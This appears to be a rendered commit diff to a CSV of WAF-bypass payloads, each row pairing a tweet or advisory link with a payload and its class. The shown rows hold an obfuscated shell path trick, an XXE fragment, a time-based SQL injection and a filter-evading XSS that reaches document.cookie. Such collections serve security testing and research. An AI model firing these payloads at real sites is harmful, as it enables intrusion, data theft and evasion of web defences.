

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -460,3 +460,3 @@ https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/
 https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a ""&#x3c;&#x21; ... omitted ...", xxe
-https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU},sqli
+https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,'{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"}',sqli
 https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">,xss
```
